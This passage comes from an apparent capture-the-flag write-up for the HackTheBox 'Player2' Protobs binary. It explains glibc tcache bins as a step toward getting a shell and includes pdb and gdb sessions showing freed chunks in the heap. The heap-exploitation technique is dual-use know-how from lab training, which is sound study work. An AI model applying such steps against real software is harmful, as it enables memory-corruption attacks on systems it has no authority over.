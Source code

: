 
#### Heap tcache Bins

With the leak I’ve bypassed ASLR. I can now work to get a shell. I’ll notice
that if I start the program, add a config, and then delete it, both of the
freed buffers (config object and description buffer) are in [tcache
bins](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-
heap/implementation/tcache/). The tcache are thread specific bins introduced
in glic 2.26 (Ubuntu 17.10), and consist of 64 singly-linked lists or bins
that can each hold up to seven same-sized chunks. When a freed buffer goes to
tcache, it is left marked as in use, and the first word of the data is used as
an entry in the linked list. So when the first buffer is added, the address of
that buffer is added to the tcache’s starting list, and then a null terminator
is added as the first word of data. If a second is added, it’s first word
points to the original bin, and the tcache not points to it. And for different
sized buffers, they end up in different lists.

I’ll show a couple examples. First I’ll start, create, delete:

    
    
    root@kali# python3 pwn_protobs.py 
    [+] Starting local process '/media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/Protobs': pid 2574
    > /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/pwn_protobs.py(46)<module>()
    -> new_config('dummy1', 0x18, 'to be deleted')   # 0
    (Pdb) new_config('0xdf', 0x18, '0xdf config')
    (Pdb) del_config(0)
    

Attached gdb and run `heapinfo`:

    
    
    root@kali# gdb -q -p $(pidof Protobs) -ex 'b *0x4013cd'
    Attaching to process 2574
    Reading symbols from /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/Protobs...
    (No debugging symbols found in /media/sf_CTFs/hackthebox/player2-10.10.10.170/binary/Protobs)
    Reading symbols from libc.so.6...
    Reading symbols from ld-2.29.so...
    ...[snip]...
    gdb-peda$ heapinfo
    (0x20)     fastbin[0]: 0x0
    (0x30)     fastbin[1]: 0x0
    (0x40)     fastbin[2]: 0x0
    (0x50)     fastbin[3]: 0x0
    (0x60)     fastbin[4]: 0x0
    (0x70)     fastbin[5]: 0x0
    (0x80)     fastbin[6]: 0x0
    (0x90)     fastbin[7]: 0x0
    (0xa0)     fastbin[8]: 0x0
    (0xb0)     fastbin[9]: 0x0
                      top: 0x23322b0 (size : 0x20d50) 
           last_remainder: 0x0 (size : 0x0) 
                unsortbin: 0x0
    (0x20)   tcache_entry[0]: 0x23322a0
    (0x40)   tcache_entry[2]: 0x2332260
    